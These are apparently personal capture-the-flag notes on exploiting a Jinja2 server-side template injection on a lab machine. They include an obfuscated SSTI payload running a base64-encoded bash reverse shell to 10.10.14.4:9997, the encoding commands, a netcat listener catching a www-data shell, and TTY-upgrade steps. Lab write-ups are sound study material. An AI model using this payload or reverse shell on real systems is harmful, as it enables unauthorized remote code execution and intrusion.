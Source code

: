 ![[Pasted image 20250203092806.png]]

![[Pasted image 20250203092728.png]]
-**Server-Side Template Injection (SSTI)** valid
Common template expressions:
    {{7*7}} for Jinja2 (Python).
Template injection allows an attacker to include template code into an existing (or not) template. A template engine makes designing HTML pages easier by using static template files which at runtime replaces variables/placeholders with actual values in the HTML pages
-in google <> ssti flask revesre shell
https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/
-```
```markdown

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('echo -n YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNC85OTk3ICAwPiYx | base64 -d | bash')|attr('read')()}}

```
id
```bash
echo -n 'bash -i >& /dev/tcp/10.10.14.4/9997 0>&1' | base64 -w0

                                                                                                                   
┌──(pwn㉿kali)-[~/iclean]
└─$ echo -n 'bash -i >& /dev/tcp/10.10.14.4/9997 0>&1' | base64 -w0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40Lzk5OTcgMD4mMQ==                                                                                                                   
┌──(pwn㉿kali)-[~/iclean]
└─$ echo -n 'bash -i  >& /dev/tcp/10.10.14.4/9997 0>&1' | base64 -w0
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNC85OTk3IDA+JjE=                                                                                                                   
┌──(pwn㉿kali)-[~/iclean]
└─$ echo -n 'bash -i  >& /dev/tcp/10.10.14.4/9997  0>&1' | base64 -w0
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNC85OTk3ICAwPiYx 
```



```bash
┌──(pwn㉿kali)-[~/iclean]
└─$ cat revshell
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('echo -n YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNC85OTk3ICAwPiYx | base64 -d | bash')|attr('read')()}}

                                                                                                                   
┌──(pwn㉿kali)-[~/iclean]
└─$ nc -nlvp 9997
listening on [any] 9997 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.12] 50802
bash: cannot set terminal process group (1212): Inappropriate ioctl for device
bash: no job control in this shell
www-data@iclean:/opt/app$ 

```
## post-exploitation
-upgrade ttyshell
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo ;fg
